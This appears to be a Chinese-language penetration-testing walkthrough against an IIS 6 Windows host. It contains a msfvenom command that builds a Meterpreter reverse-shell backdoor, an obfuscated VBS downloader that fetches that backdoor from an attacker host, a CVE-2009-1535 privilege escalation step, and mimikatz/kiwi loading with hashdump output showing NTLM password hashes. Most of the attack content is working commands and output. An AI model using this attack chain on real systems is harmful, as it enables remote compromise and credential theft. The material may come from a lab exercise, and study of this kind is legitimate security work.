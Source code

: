 ### 权限弹到msf

1、msf生成后门

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=7777 -f exe -o 7777.exe
```

2、vbs下载后门

```
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> downfile.vbs
```

```
cscript downfile.vbs http://192.168.0.101:7766/7777.exe 7777.exe
```

3、CVE-2009-1535

```
iis6.0.exe 2.exe
```

## 后渗透信息搜集

### 抓取密码

载入  kiwi

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

1、`hashdump`

```meterpreter
meterpreter > hashdump
Administrator:500:6c634e36565f85fc9c5014ae4718a7ee:f099c4a637f9b871487bbb03962f79b5:::
ASPNET:1006:c5f4c32e080b1c0a19f45641a62db986:5643281884dd972acd9b0eaeecd13522:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_WWW-79FA760B73D:1000:a1323e561696c32ad68862a8c0118e7e:00dd987a1d0c4540f919b3eb5fc0b1cd:::
IWAM_WWW-79FA760B73D:1001:123dec921ecc0ca82f1106015d8abba7:556f2d1b30d88fc35eb8c4d573a5cd14:::
SUPPORT_388945a0:1004:aad3b435b51404eeaad3b435b51404ee:f739006531fcc09af8615f9575fa943c:::
```
